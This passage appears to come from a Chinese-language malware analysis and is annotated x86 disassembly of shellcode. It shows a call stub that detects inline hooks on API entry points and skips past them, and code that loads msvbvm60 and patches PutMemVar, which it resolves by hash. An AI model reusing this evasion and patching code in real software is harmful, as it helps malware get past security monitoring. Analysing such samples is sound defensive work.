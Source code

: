     047C03E9 8A0A mov cl, byte ptr [edx]
    047C03EB 84C9 test cl, cl
    047C03ED ^ 75 F1 jnz short 047C03E0
    047C03EF C3 retn
而后面每次调用的时候都会做判断，这里是CALL API的stub：

    047C04EF 55 push ebp
    047C04F0 8BEC mov ebp, esp
    047C04F2 83C5 0C add ebp, 0C
    047C04F5 8B4D 00 mov ecx, dword ptr [ebp]
    047C04F8 8BC1 mov eax, ecx
    047C04FA 85C0 test eax, eax
    047C04FC 74 0C je short 047C050A
    047C04FE 6BC0 04 imul eax, eax, 4
    047C0501 FF7405 00 push dword ptr [ebp+eax]
    047C0505 83E8 04 sub eax, 4
    047C0508 ^ E2 F7 loopd short 047C0501 ;这里是处理参数，把参数逐个压栈
    047C050A 8B45 FC mov eax, dword ptr [ebp-4]
    047C050D E8 02000000 call 047C0514 ;调用后面
    047C0512 5D pop ebp
    047C0513 C3 retn
    047C0514 66:8378 FB 8B cmp word ptr [eax-5], 0FF8B ;判断真正API地址有没有被inline hook还是正常头
    047C0519 74 11 je short 047C052C
    047C051B 8078 FB E9 cmp byte ptr [eax-5], 0E9 ;判断是不是跳转指令
    047C051F 74 0B je short 047C052C
    047C0521 8078 FB EB cmp byte ptr [eax-5], 0EB ;判断是不是跳转指令
    047C0525 74 05 je short 047C052C
    047C0527 83E8 05 sub eax, 5
    047C052A FFE0 jmp eax ;如果没问题就跳回真正地址执行
    047C052C 8BFF mov edi, edi ;执行正常函数头后跳转
    047C052E 55 push ebp
    047C052F 8BEC mov ebp, esp
    047C0531 FFE0 jmp eax
下面shellcode加载并修改了msvbvm60!PutMemVar，把上面的call stub代码写进去：

    047C03F8 8365 D4 00 and dword ptr [ebp-2C], 0
    047C03FC 8365 D8 00 and dword ptr [ebp-28], 0
    047C0400 8365 E0 00 and dword ptr [ebp-20], 0
    047C0404 8365 E4 00 and dword ptr [ebp-1C], 0
    047C0408 8365 E8 00 and dword ptr [ebp-18], 0
    047C040C C645 EC 6D mov byte ptr [ebp-14], 6D
    047C0410 C645 ED 73 mov byte ptr [ebp-13], 73
    047C0414 C645 EE 76 mov byte ptr [ebp-12], 76
    047C0418 C645 EF 62 mov byte ptr [ebp-11], 62
    047C041C C645 F0 76 mov byte ptr [ebp-10], 76
    047C0420 C645 F1 6D mov byte ptr [ebp-F], 6D
    047C0424 C645 F2 36 mov byte ptr [ebp-E], 36
    047C0428 C645 F3 30 mov byte ptr [ebp-D], 30
    047C042C C645 F4 00 mov byte ptr [ebp-C], 0
    047C0430 8365 F8 00 and dword ptr [ebp-8], 0
    047C0434 8365 FC 00 and dword ptr [ebp-4], 0
    047C0438 8D45 EC lea eax, dword ptr [ebp-14]
    047C043B 50 push eax
    047C043C 6A 01 push 1
    047C043E 8B45 08 mov eax, dword ptr [ebp+8]
    047C0441 FFB0 08020000 push dword ptr [eax+208]
    047C0447 E8 A3000000 call 047C04EF ; LoadLibrary(“msvbvm60”)
    047C044C 83C4 0C add esp, 0C
    047C044F 8945 FC mov dword ptr [ebp-4], eax
    047C0452 68 B974DEAE push AEDE74B9
    047C0457 8B75 FC mov esi, dword ptr [ebp-4]
    047C045A E8 14FFFFFF call 047C0373 ; GetProcAddress(“PutMemVar”)
    047C045F 83E8 05 sub eax, 5
    047C0462 8B4D 08 mov ecx, dword ptr [ebp+8]